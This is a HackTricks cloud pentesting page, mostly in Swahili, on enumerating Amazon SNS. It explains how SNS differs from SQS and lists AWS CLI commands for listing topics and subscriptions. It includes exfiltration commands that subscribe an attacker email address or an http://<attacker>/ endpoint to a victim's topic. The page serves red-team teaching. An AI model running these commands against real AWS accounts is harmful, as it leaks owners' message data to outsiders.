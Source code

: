# AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) inafafanuliwa kama **huduma ya ujumbe inayosimamiwa kikamilifu**. Inasaidia aina za mawasiliano **katika programu hadi programu** (A2A) na **katika programu hadi mtu** (A2P).

Vipengele muhimu kwa mawasiliano ya A2A ni pamoja na **mekanismu za kuchapisha/kujiunga (pub/sub)**. Mekanismu hizi zinaanzisha **mada**, muhimu kwa kuwezesha ujumbe wa **kuwasilisha, wa push, wa wengi kwa wengi**. Kipengele hiki ni cha faida sana katika hali zinazohusisha mifumo iliyosambazwa, huduma ndogo, na usanifu wa seva zisizo na tukio. Kwa kutumia mada hizi, mifumo ya wachapishaji inaweza kusambaza ujumbe kwa ufanisi kwa **mifumo mbalimbali ya wapokeaji**, ikiruhusu muundo wa ujumbe wa fanout.

### **Difference with SQS**

**SQS** ni huduma ya **mifumo ya foleni** inayoruhusu mawasiliano ya pointi hadi pointi, kuhakikisha kwamba ujumbe unachakatwa na **mpokeaji mmoja**. Inatoa **usambazaji angalau mara moja**, inasaidia foleni za kawaida na FIFO, na inaruhusu uhifadhi wa ujumbe kwa ajili ya kurudi na usindikaji wa kucheleweshwa.\
Kwa upande mwingine, **SNS** ni huduma inayotegemea **kuchapisha/kujiunga**, ikiruhusu mawasiliano **moja hadi wengi** kwa kutangaza ujumbe kwa **wapokeaji wengi** kwa wakati mmoja. Inasaidia **nukuu mbalimbali za kujiunga kama barua pepe, SMS, kazi za Lambda, na HTTP/HTTPS**, na inatoa mekanismu za kuchuja kwa usambazaji wa ujumbe wa lengo.\
Ingawa huduma zote mbili zinawezesha kutenganisha kati ya vipengele katika mifumo iliyosambazwa, SQS inazingatia mawasiliano ya foleni, na SNS inasisitiza muundo wa mawasiliano ya tukio, wa fan-out.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Kumbuka kwamba ikiwa **mada ni ya aina ya FIFO**, ni wanachama pekee wanaotumia itifaki **SQS** wanaweza kutumika (HTTP au HTTPS haiwezi kutumika).

Pia, hata kama `--topic-arn` ina eneo hakikisha unataja eneo sahihi katika **`--region`** au utapata kosa linaloonekana kama linaonyesha kwamba huna uf access lakini tatizo ni eneo.
{% endhint %}

#### Upatikanaji Usio na Uthibitisho

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Kuinua Haki

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Baada ya Kutekeleza

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Kudumu

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Marejeo

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki hila za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
